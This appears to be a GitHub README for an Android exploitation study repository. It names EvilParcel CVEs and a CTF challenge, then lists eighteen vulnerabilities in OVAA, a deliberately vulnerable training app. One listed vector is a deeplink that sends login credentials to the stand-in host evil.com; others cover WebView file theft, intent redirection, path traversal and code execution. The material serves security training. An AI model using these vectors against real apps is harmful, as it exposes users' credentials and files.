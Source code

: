 # androidpwn
# EvilParcel漏洞
CVE-2017-13288<br>
CVE-2017-13315<br>
Android Pwn De1taCTF BroadcastTest<br>

# CVE-2017-13288
测试环境 Andoird 8.1 <br>

# CVE-2017-13315
测试环境 Andoird 8.1 <br>

# OVAA Proof Of Concept
https://github.com/oversecured/ovaa<br>
The detailed POC codes <br>

# List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on our blog.

1.Installation of an arbitrary login_url via deeplink oversecured://ovaa/login?url=http://evil.com/. Leads to the user's user name and password being leaked when they log in.<br>
2.Obtaining access to arbitrary content providers (not exported, but with the attribute android:grantUriPermissions="true") via deeplink oversecured://ovaa/grant_uri_permissions. The attacker's app needs to process oversecured.ovaa.action.GRANT_PERMISSIONS and pass intent to setResult(code, intent) with flags such as Intent.FLAG_GRANT_READ_URI_PERMISSION and the URI of the content provider.<br>
3.Vulnerable host validation when processing deeplink oversecured://ovaa/webview?url=....<br>
4.Opening arbitrary URLs via deeplink oversecured://ovaa/webview?url=http://evilexample.com. An attacker can use the vulnerable WebView setting WebSettings.setAllowFileAccessFromFileURLs(true) in the WebViewActivity.java file to steal arbitrary files by sending them XHR requests and obtaining their content.<br>
5.Access to arbitrary activities and acquiring access to arbitrary content providers in LoginActivity by supplying an arbitrary Intent object to redirect_intent.<br>
6.Theft of arbitrary files in MainActivity by intercepting an activity launch from Intent.ACTION_PICK and passing the URI to any file as data.<br>
7.Insecure broadcast to MainActivity containing credentials. The attacker can register a broadcast receiver with action oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA and obtain the user's data.<br>
8.Insecure activity launch in MainActivity with action oversecured.ovaa.action.WEBVIEW, containing the user's encrypted data in the query parameter token.
9.Deletion of arbitrary files via the insecure DeleteFilesSerializable deserialization object.<br>
10.Memory corruption via the MemoryCorruptionParcelable object.<br>
11.Memory corruption via the MemoryCorruptionSerializable object.<br>
12.Obtaining read/write access to arbitrary files in TheftOverwriteProvider via path-traversal in the value uri.getLastPathSegment().<br>
13.Obtaining access to app logs via InsecureLoggerService. Leak of credentials in LoginActivity Log.d("ovaa", "Processing " + loginData).<br>
14.Use of the hardcoded AES key in WeakCrypto.<br>
15.Arbitrary Code Execution in OversecuredApplication by launching code from third-party apps with no security checks.<br>
16.Use of very wide file sharing declaration for oversecured.ovaa.fileprovider content provider in root entry.<br>
17.Hardcoded credentials to a dev environment endpoint in strings.xml in test_url entry.<br>
18.Arbitrary code execution via a DEX library located in a world-readable/writable directory.<br>
